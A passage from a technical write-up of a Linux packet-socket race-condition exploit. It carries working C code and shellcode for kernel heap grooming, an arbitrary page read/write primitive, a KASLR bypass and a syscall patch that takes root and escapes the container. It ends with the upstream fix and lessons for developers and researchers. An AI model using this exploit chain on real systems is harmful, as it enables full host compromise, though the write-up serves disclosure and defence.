    struct simple_xattr *simple_xattr = mem + 3 * PAGE_SIZE;
    if (is_data_look_like_simple_xattr(simple_xattr, KMALLOC_8K_SIZE)) {
        overflowed_pg_vec_packet_socket = spray_pg_vec_packet_sockets[i];
        overflow_success = true;
    }
    munmap(mem, mmap_size);
}
```

The recognition heuristic checks that the `rb_node` pointers are valid kernel addresses (using `__rb_parent()` to mask the color bit), that `name` is a valid kernel address, and that `size == 8192`:

```c
static inline bool is_data_look_like_simple_xattr(void *data, size_t value_size) {
    struct simple_xattr *simple_xattr = data;
    u64 rb_parent = (u64)__rb_parent(simple_xattr->rb_node.__rb_parent_color);
    u64 rb_left   = (u64)(simple_xattr->rb_node.rb_left);
    u64 rb_right  = (u64)(simple_xattr->rb_node.rb_right);
    return ((rb_parent >> 48) == 0xFFFF) &&
           (rb_left == 0 || ((rb_left >> 48) == 0xFFFF)) &&
           (rb_right == 0 || ((rb_right >> 48) == 0xFFFF)) &&
           (((u64)(simple_xattr->name) >> 48) == 0xFFFF) &&
           (simple_xattr->size == value_size);
}
```

When a match is found, the exploit saves this socket as `overflowed_pg_vec_packet_socket` and closes all the other sprayed sockets to reclaim memory.

#### The resulting primitive

From this point, the exploit can access the `leaked_content_simple_xattr` kernel object at will:

```c
void *mem = mmap(NULL, mmap_size, PROT_READ | PROT_WRITE, MAP_SHARED,
                 overflowed_pg_vec_packet_socket, 0);
struct simple_xattr *manipulated_simple_xattr = mem + 3 * PAGE_SIZE;
// Now manipulated_simple_xattr points directly to live kernel memory
```

This gives the exploit three capabilities through the "manipulated simple_xattr":

1. **Leak kernel addresses.** The `rb_node` pointers in the `simple_xattr` point to other xattr objects in the same inode's red-black tree. When the exploit creates a new xattr via `setxattr()`, the kernel inserts it into the tree and updates the existing nodes' child pointers. The exploit reads `rb_node.rb_right` or `rb_node.rb_left` to discover the new xattr's kernel address. This is used repeatedly in Stage 3 to locate freshly allocated pages.

2. **Redirect the name pointer (page reclamation oracle).** The exploit can overwrite `manipulated_simple_xattr->name` to point to any kernel address. This turns `getxattr()` into a boolean oracle for validating page reclamation. In Stage 3, the exploit repeatedly frees pages and tries to reclaim them with ring buffer blocks — but it needs to confirm each reclamation succeeded (some other kernel subsystem might have grabbed the page first). The technique works as follows: (1) reclaim the freed page via a ring buffer block and mmap it, (2) write a known string like `"security.fake_simple_xattr_name"` into the page, (3) overwrite `manipulated_simple_xattr->name` to point at that page's kernel address, (4) call `getxattr(filepath, "security.fake_simple_xattr_name", ...)`. The kernel traverses the xattr tree, finds the manipulated xattr, dereferences its `name` pointer, and does `strcmp()` against the requested name. If the reclamation worked, the page contains the string the exploit wrote, `strcmp()` matches, and `getxattr()` succeeds — confirming the page is under the exploit's control. If something else grabbed the page, `strcmp()` fails and the exploit knows to retry. The original `name` pointer is restored immediately after each check.

3. **Link fake objects into the xattr collection.** The exploit modifies `rb_node.rb_right` or `rb_node.rb_left` to graft a fake `simple_xattr` node into the red-black tree (setting the fake node's `__rb_parent_color` to point back to the manipulated xattr as its parent). When `removexattr()` is later called on the fake xattr, the kernel frees the page at the fake object's address — giving the exploit a targeted page free primitive. This is the key mechanism for Stage 3's double-overlapping ring buffer construction.

### Stage 3: Arbitrary Page Read/Write via pgv Overlap

Stage 2's primitive lets the exploit read and write the fields of a single `simple_xattr` in kernel memory. That's powerful, but limited — the exploit can only access one object at a fixed address. To read or write *any* kernel page, the exploit constructs a more general primitive: two ring buffers arranged so that one can overwrite the other's `pgv` array entries, redirecting them to any page-aligned kernel address.

The construction has three parts: leaking two page addresses, building and linking a fake xattr that spans both pages, then freeing the fake xattr to create the overlap.

#### Part 1: Cleaning up

First, the exploit destroys the `overflowed_simple_xattr` from Stage 1 (the one whose `size` was corrupted to 65,536). It's no longer needed — the heap read primitive it provided has been superseded by Stage 2's direct memory access. After removal, the inode's xattr collection contains only the `leaked_content_simple_xattr`, which is the object the exploit controls through the mmap'd ring buffer (the "manipulated simple_xattr").

The exploit saves the original values of the manipulated xattr's `rb_node` pointers and `name` so it can restore them later — the kernel's xattr traversal code will crash if these pointers are left dangling.

#### Part 2: Leaking page addresses via allocate-read-free

The exploit needs two order-2 page addresses. It obtains each one through the same three-step pattern:

**Step 1: Allocate a temporary xattr.** Call `setxattr()` on the tmpfs file to create a new `simple_xattr` with `value_size = 8192` (order-2 pages). The kernel links it into the xattr collection, updating the manipulated xattr's node pointers.

**Step 2: Read the address.** Since the exploit has the manipulated simple_xattr mmap'd, it can immediately read the updated `rb_node` pointer to get the new xattr's kernel address. The red-black tree may insert the new node as either a right or left child depending on the key comparison, so the exploit checks both:

```c
Setxattr(filepath, "security.leak_for_name", value, KMALLOC_8K_SIZE, XATTR_CREATE);
if (manipulated_simple_xattr->rb_node.rb_right)
    fake_simple_xattr_name_addr = (u64)manipulated_simple_xattr->rb_node.rb_right;
else
    fake_simple_xattr_name_addr = (u64)manipulated_simple_xattr->rb_node.rb_left;
```

**Step 3: Free it.** Call `removexattr()` to free the temporary xattr. Its page goes back to the order-2 freelist.

The exploit repeats this pattern twice, obtaining two addresses:
- `fake_simple_xattr_name_addr` — will hold the fake xattr's name string
- `fake_simple_xattr_addr` — will hold the fake xattr structure itself

#### Part 3: Reclaiming the freed pages with ring buffer blocks

After each address is leaked and the temporary xattr freed, the exploit immediately reclaims the freed page with a ring buffer block:

```c
// Reclaim the freed page with a 1-block, order-2 ring buffer
alloc_pages(fake_simple_xattr_name_packet_socket, 1, PAGES_ORDER2_SIZE);
```

Now the exploit can `mmap()` this ring buffer to read/write the page at `fake_simple_xattr_name_addr`. It writes the fake name string into it:

```c
void *mem = mmap(NULL, PAGES_ORDER2_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED,
                 fake_simple_xattr_name_packet_socket, 0);
strcpy(mem, "security.fake_simple_xattr_name");
munmap(mem, PAGES_ORDER2_SIZE);
```

But how does the exploit know the reclamation succeeded? The freed page might have been reused by something else entirely. The exploit **writes** to the reclaimed page through the newly allocated ring buffer (via `mmap`), but **reads** through the leaked address (via `getxattr`). If the read returns what was written, the ring buffer must have landed on the same page the leaked address points to:

```c
// Now read through the leaked address: redirect the manipulated xattr's
// name pointer to fake_simple_xattr_name_addr (obtained from Part 2)
manipulated_simple_xattr->name = (char *)fake_simple_xattr_name_addr;

// Ask the kernel to look up this xattr by name — the kernel will follow
// the redirected name pointer and strcmp() it against the lookup key
ssize_t ret = getxattr(filepath, "security.fake_simple_xattr_name",
                       value, manipulated_simple_xattr->size);

// Restore original name pointer
manipulated_simple_xattr->name = (char *)original_name_pointer;

if (ret == manipulated_simple_xattr->size) {
    // Success! The kernel read from the leaked address and found the string
    // we wrote via the ring buffer. The two refer to the same physical page.
}
```

If `getxattr()` succeeds, the ring buffer block and the leaked address map to the same page — the exploit now controls that page's contents. If it fails, the exploit frees the ring buffer and retries.

The same process is repeated for `fake_simple_xattr_addr`, using a second packet socket (`fake_simple_xattr_packet_socket`).

#### Part 4: Building and linking the fake xattr

With both pages reclaimed and validated, the exploit writes a fake `simple_xattr` structure into the page at `fake_simple_xattr_addr`:

```c
struct simple_xattr *fake_simple_xattr = mem;
fake_simple_xattr->rb_node.__rb_parent_color = leaked_content_simple_xattr_kernel_address;
fake_simple_xattr->name = (void *)fake_simple_xattr_name_addr;
fake_simple_xattr->size = KMALLOC_8K_SIZE;
```

The fake xattr's `__rb_parent_color` is set to the kernel address of the manipulated xattr (the `leaked_content_simple_xattr` from Stage 1). This is because the red-black tree removal algorithm needs to find the parent node. The `rb_right` and `rb_left` fields are left as NULL (zeroed by `memset`), indicating this is a leaf node — simplifying the tree removal path. The `name` pointer points to `fake_simple_xattr_name_addr` (where the string `"security.fake_simple_xattr_name"` lives) and `size` is set to 8,192 bytes.

Now the exploit links this fake xattr into the inode's red-black tree by modifying the manipulated xattr:

```c
if (is_right_node)
    manipulated_simple_xattr->rb_node.rb_right = (void *)fake_simple_xattr_addr;
else
    manipulated_simple_xattr->rb_node.rb_left = (void *)fake_simple_xattr_addr;
```

The `is_right_node` variable tracks which child pointer was used when the temporary xattr was originally inserted (from Part 2's second leak). The exploit reuses the same child slot, ensuring the tree structure remains consistent.

The kernel now considers this a real xattr in the collection. Calling `removexattr("security.fake_simple_xattr_name")` will make the kernel find it, unlink it from the collection, and **free both its `name` allocation and the xattr struct itself**:

```c
// Kernel's simple_xattr removal path:
kfree(xattr->name);   // frees page at fake_simple_xattr_name_addr
kvfree(xattr);         // frees page at fake_simple_xattr_addr
```

#### Part 5: Creating the pgv overlap

Here is where the exploit reaches its goal. The exploit calls:

```c
removexattr(filepath, "security.fake_simple_xattr_name");
```

The kernel finds the fake xattr, unlinks it from the red-black tree, and frees both allocations separately:

```c
// Kernel's simple_xattr removal path:
kfree(xattr->name);   // frees Page A (fake_simple_xattr_name_addr)
kvfree(xattr);         // frees Page B (fake_simple_xattr_addr)
```

Both pages return to the order-2 freelist. But the two ring buffers that previously reclaimed these pages still have their `pgv[0].buffer` pointing at them — the pointers were never updated:

```
fake_simple_xattr_name_packet_socket → pgv[0].buffer = Page A (now freed)
fake_simple_xattr_packet_socket      → pgv[0].buffer = Page B (now freed)

Order-2 freelist: [Page A, Page B]
```

These are **dangling** pointers — an intentional use-after-free. Immediately after the free, the exploit allocates a **third** ring buffer:

```c
alloc_pages(overwritten_pg_vec_packet_socket,
            MIN_PAGE_COUNT_TO_ALLOCATE_PGV_ON_PAGES_ORDER2,  // 1025 blocks
            PAGE_SIZE);
```

This ring buffer has 1,025 blocks, so its `pgv` array is `1025 × 8 = 8,200` bytes — allocated via `kcalloc()` in `alloc_pg_vec()`, rounded up to `kmalloc-8k`, and served from order-2 pages (the same page order as the just-freed fake xattr pages). With two order-2 pages just freed, the page allocator grabs one of them for the `pgv` array — say Page A:

```
fake_simple_xattr_name_packet_socket → pgv[0].buffer = Page A ← STILL POINTS HERE
fake_simple_xattr_packet_socket      → pgv[0].buffer = Page B (still freed)
overwritten_pg_vec_packet_socket     → pgv array lives on Page A
```

Page A is now **simultaneously** block 0 of `fake_simple_xattr_name_packet_socket` (stale dangling pointer) and the `pgv` array of the third ring buffer (new allocation). When the exploit mmaps `fake_simple_xattr_name_packet_socket`, the kernel looks up `pgv[0].buffer`, finds Page A, and maps it into userspace — but Page A now contains the third ring buffer's `pgv` entries. That's the **pgv overlap**.

The exploit doesn't know in advance which page the allocator will pick, so it mmaps both dangling ring buffers and checks which one contains data that looks like a `pgv` array (consecutive kernel pointers):

```c
void *mem  = mmap(NULL, PAGES_ORDER2_SIZE, ..., fake_simple_xattr_name_packet_socket, 0);
void *mem1 = mmap(NULL, PAGES_ORDER2_SIZE, ..., fake_simple_xattr_packet_socket, 0);

if (mem != MAP_FAILED && is_data_look_like_pgv(mem, 1025)) {
    packet_socket_to_overwrite_pg_vec = fake_simple_xattr_name_packet_socket;
} else if (mem1 != MAP_FAILED && is_data_look_like_pgv(mem1, 1025)) {
    packet_socket_to_overwrite_pg_vec = fake_simple_xattr_packet_socket;
}

packet_socket_with_overwritten_pg_vec = overwritten_pg_vec_packet_socket;
```

The `is_data_look_like_pgv()` function checks that each entry has a valid kernel address (upper 16 bits = `0xFFFF`), which matches a `pgv` array filled with allocated block pointers. Whichever dangling ring buffer's mmap reveals pgv entries is the one whose page was reclaimed — it becomes the "master."

#### The resulting primitive

The exploit now has two ring buffers in a master-puppet relationship:

- **`packet_socket_to_overwrite_pg_vec`** (the "master"): Its ring buffer block overlaps the puppet's `pgv` array. Mmapping it exposes the raw `pgv` entries as writable memory.
- **`packet_socket_with_overwritten_pg_vec`** (the "puppet"): Its `pgv` entries can be arbitrarily modified by the master. Mmapping it maps whatever pages the (now-modified) `pgv` entries point to.



To read or write any page-aligned kernel address:

```c
void *abr_page_read_write_primitive_mmap(
    struct abr_page_read_write_primitive *primitive,
    u64 page_aligned_addr)
{
    // Step 1: mmap the master — its block IS the puppet's pgv array
    void *mem = mmap(NULL, primitive->overwrite_pg_vec_mmap_size,
                     PROT_READ | PROT_WRITE, MAP_SHARED,
                     primitive->packet_socket_to_overwrite_pg_vec, 0);
    struct pgv *pgv = mem;
    pgv[0].buffer = (char *)page_aligned_addr;   // redirect puppet's block 0
    munmap(mem, primitive->overwrite_pg_vec_mmap_size);

    // Step 2: mmap the puppet — block 0 now maps to target_addr
    mem = mmap(NULL, primitive->overwritten_pg_vec_mmap_size,
               PROT_READ | PROT_WRITE, MAP_SHARED,
               primitive->packet_socket_with_overwritten_pg_vec, 0);
    return mem;   // userspace pointer to arbitrary kernel page
}
```

The caller receives a userspace pointer that directly maps the target kernel page. Reading from it reads kernel memory; writing to it writes kernel memory. No syscalls, no filters, no size limits — just raw `memcpy`. The only constraint is page alignment.

This primitive is used by Stage 4 (reading pipe buffers to find a kernel code pointer) and Stage 5 (overwriting a syscall handler with shellcode).

### Stage 4: KASLR Bypass via Pipe Buffer

With arbitrary page read/write, the exploit can access any kernel page — but it doesn't yet know *where* anything is. KASLR (Kernel Address Space Layout Randomization) randomizes the kernel's base address at each boot, so the addresses of symbols like `init_cred`, `init_fs`, and syscall handlers are unknown. To defeat KASLR, the exploit needs to find a single kernel **code pointer** — a pointer into the kernel's `.text` or `.data` segment — and subtract a known offset to recover the base address.

#### Background: pipe buffers and `anon_pipe_buf_ops`

Linux pipes are backed internally by an array of `struct pipe_buffer` entries, each describing one segment of data in the pipe:

```c
struct pipe_buffer {
    struct page *page;              // pointer to the data page
    unsigned int offset, len;       // offset and length within the page
    const struct pipe_buf_operations *ops;  // → anon_pipe_buf_ops
    unsigned int flags;
    unsigned long private;
};  // 40 bytes
```

The `ops` field is a pointer to `anon_pipe_buf_ops`, a static const struct in the kernel's `.data` section. Its address is always at a fixed offset from the kernel base — in the target kernel, `0x1c4a600` bytes from the base. KASLR shifts the entire kernel image, so the absolute address changes each boot, but the lower 24 bits (`0xc4a600`) remain constant because KASLR only randomizes the upper bits. The exploit uses these lower bits as a signature to recognize a valid `pipe_buffer`.

The pipe buffer array is allocated via `kcalloc(nr_slots, sizeof(struct pipe_buffer))` when the pipe is created or resized. The number of slots is controlled by `fcntl(F_SETPIPE_SZ)`, which sets the pipe's capacity in bytes — the kernel rounds this up to the nearest power-of-two number of pages, then allocates that many `pipe_buffer` entries. Crucially, the `ops` field is only populated when data is actually written to the pipe — an empty pipe has zeroed `pipe_buffer` entries.

#### The technique

The exploit runs a retry loop:

**Step 1: Leak a page address.** Using the same allocate-read-free pattern from Stage 3 — create a temporary xattr via `setxattr()`, read the manipulated xattr's `rb_node.rb_right` or `rb_node.rb_left` to get the new xattr's kernel address (`pipe_buffer_addr`), then `removexattr()` to free it. The freed page goes back to the order-2 freelist.

**Step 2: Reclaim with a pipe buffer array.** Create a pipe with `pipe2(pipe_fd, O_DIRECT)` and resize it:

```c
fcntl(pipe_fd[0], F_SETPIPE_SZ, 256 * PAGE_SIZE);
```

This tells the kernel to allocate 256 `pipe_buffer` entries: `256 × 40 = 10,240` bytes, which exceeds `kmalloc-8k` and falls through to the page allocator, served from order-2 pages (16 KB) — the same page order as the just-freed xattr. If the pipe buffer array lands on the just freed page, the exploit now has a `pipe_buffer` array at a known kernel address.

**Step 3: Populate the ops pointer.** Write data to the pipe to fill in the first `pipe_buffer` entry:

```c
write(pipe_fd[1], "fillin_pipe_buffer", 18);
```

Before this write, the `pipe_buffer` entries are zeroed (from `kcalloc`). After the write, the first entry's `page` points to a data page, `ops` points to `anon_pipe_buf_ops`, and `len` reflects the data length.

**Step 4: Read and identify.** Use the arbitrary page read primitive from Stage 3 to map the leaked page address:

```c
void *mem = abr_page_read_write_primitive_mmap(primitive, pipe_buffer_addr);
```

Then check if the data looks like a `pipe_buffer`:

```c
static inline bool is_data_look_like_pipe_buffer(struct pipe_buffer *pipe_buffer) {
    return (((u64)(pipe_buffer->page) >> 48) == 0xFFFF) &&        // valid kernel address
           (((u64)(pipe_buffer->ops) & 0xFFFFFF) == 0xc4a600);   // known lower 24 bits
}
```

The heuristic checks two things: `page` must be a valid kernel pointer (upper 16 bits = `0xFFFF`), and `ops` must have the right lower 24 bits matching `anon_pipe_buf_ops`. If both match, this is almost certainly a real `pipe_buffer`.

**Step 5: Calculate the kernel base.**

```c
kernel_base = (u64)pipe_buffer->ops - anon_pipe_buf_ops_offset_from_kernel_base;
// kernel_base = ops - 0x1c4a600
```

If the reclamation failed (the pipe buffer array didn't land on the leaked page, or the data doesn't match), the exploit closes the pipe and retries from Step 1. Once the kernel base is known, the exploit can compute the absolute addresses of `init_cred`, `init_fs`, `__do_sys_kcmp`, and `__x86_return_thunk` — everything needed for Stage 5.

### Stage 5: Privilege Escalation via Syscall Patching

With the kernel base known and arbitrary page write available, the exploit overwrites the `__do_sys_kcmp` syscall handler with custom shellcode:

```asm
mov rax, QWORD PTR gs:0x20c80    ; current task_struct
shl rdi, 32                       ; reconstruct init_cred from
shl rsi, 32                       ;   arg1 (high 32 bits) and
shr rsi, 32                       ;   arg2 (low 32 bits)
or  rdi, rsi
mov QWORD PTR [rax + 0x7d0], rdi  ; task->real_cred = init_cred
mov QWORD PTR [rax + 0x7d8], rdi  ; task->cred = init_cred
mov QWORD PTR [rax + 0x828], rcx  ; task->fs = init_fs
jmp r8                             ; return via __x86_return_thunk
```

The shellcode passes `init_cred` and `init_fs` addresses through syscall arguments (encoded across `rdi`/`rsi`/`rcx`/`r8`), replacing the calling process's credentials with `init_cred` (root) and its filesystem namespace with `init_fs` (escaping the container). One `syscall(SYS_kcmp, ...)` call and the process is root with access to the host filesystem:

```c
syscall(SYS_kcmp,
    (u32)(init_cred >> 32), (u32)(init_cred),
    -1, init_fs, __x86_return_thunk);
execve("/bin/sh", sh_args, NULL);  // root shell
```

## The Fix

The fix is elegant — just two lines of logic change in `packet_set_ring()`, mirroring an earlier fix (commit `15fe076edea7`):

**Before (vulnerable)**:
```c
spin_lock(&po->bind_lock);
was_running = packet_sock_flag(po, PACKET_SOCK_RUNNING);
num = po->num;
if (was_running) {
    WRITE_ONCE(po->num, 0);        // conditional!
    __unregister_prot_hook(sk, false);
}
spin_unlock(&po->bind_lock);
// ... critical section ...
spin_lock(&po->bind_lock);
if (was_running) {
    WRITE_ONCE(po->num, num);      // conditional!
    register_prot_hook(sk);
}
spin_unlock(&po->bind_lock);
```

**After (fixed)**:
```c
spin_lock(&po->bind_lock);
was_running = packet_sock_flag(po, PACKET_SOCK_RUNNING);
num = po->num;
WRITE_ONCE(po->num, 0);            // unconditional!
if (was_running)
    __unregister_prot_hook(sk, false);
spin_unlock(&po->bind_lock);
// ... critical section ...
spin_lock(&po->bind_lock);
WRITE_ONCE(po->num, num);          // unconditional!
if (was_running)
    register_prot_hook(sk);
spin_unlock(&po->bind_lock);
```

By *unconditionally* zeroing `po->num` before releasing `bind_lock`, the fix ensures that `packet_notifier()`'s `NETDEV_UP` handler will see `po->num == 0` and skip the `register_prot_hook()` call. The socket cannot be re-hooked during the critical window, regardless of whether it was running. The `po->num` value is unconditionally restored afterward.

## Takeaways

### For Kernel Developers

1. **Be defensive about lock gaps.** When code releases one lock and acquires another, consider what invariants might be violated in the gap. The fix here is instructive: even though zeroing `po->num` seemed unnecessary when the socket wasn't running, it was the only safe choice because external events (netdev notifications) could observe the intermediate state.

2. **Conditional state updates are subtle.** The original code's `if (was_running)` guard on `WRITE_ONCE(po->num, 0)` made logical sense ("why zero it if it's not running?") but created a security hole. When state is used for synchronization across concurrent code paths, **always set it to the safe value, not just when you think it matters**.

3. **TPACKET_V3 metadata survives ring buffer free.** The `prb_bdqc` structure retains stale pointers after `packet_set_ring()` frees the ring buffer. While fixing the race condition prevents the UAF, this stale metadata is a defense-in-depth concern.

### For Security Researchers

1. **Look for sleeping mutex holders.** The central insight of this exploit is a bug-finding pattern: find code sequences with a lock gap (release lock A, acquire lock B), then look for any code path that holds lock B and can sleep. Mutexes, unlike spinlocks, allow the holder to sleep, and kernel code is full of `wait_for_completion()`, `schedule()`, `copy_from_user()`, and similar calls inside mutex-protected sections. If you can trigger such a path, you've turned a nanosecond race into a controllable one.

2. **Conditional logic near locks is a smell.** Any time you see a conditional that determines whether synchronization state is updated, ask: "What happens if the condition is false but some other code path is observing this state?" The `if (was_running)` pattern that caused this vulnerability is a recurring motif in kernel race conditions.

3. **Page allocator buddy splitting enables cross-order heap grooming.** The exploit leverages the buddy allocator's splitting behavior: when order-2 pages are exhausted, the allocator splits order-3 pages. This is used to place `simple_xattr` objects (order 2) adjacent to ring buffer blocks (order 3 for victim, order 2 for reclamation). Understanding buddy allocator behavior is essential for modern kernel exploitation.

4. **Multiple races can be chained.** This exploit wins two separate races, each with different techniques (deterministic mutex holding for the first, BPF filter + timer interrupt for the second). The willingness to chain multiple probabilistic steps, retrying on failure, is what makes the full exploit chain possible.

5. **Modern mitigations increase complexity but don't prevent exploitation.** As described in the [Background section](#kernel-heap-mitigations-config_random_kmalloc_caches-and-config_slab_virtual), `CONFIG_RANDOM_KMALLOC_CACHES` and `CONFIG_SLAB_VIRTUAL` forced the exploit to use same-callsite allocations (ring buffers to reclaim ring buffers) rather than arbitrary cross-cache attacks. The entire exploit architecture — from using TX ring buffers to reclaim freed RX ring buffers, to spraying `pgv` arrays to corrupt other `pgv` arrays — is shaped by this constraint. It raises the bar significantly but, as demonstrated, does not stop a determined attacker with a sufficiently powerful vulnerability.
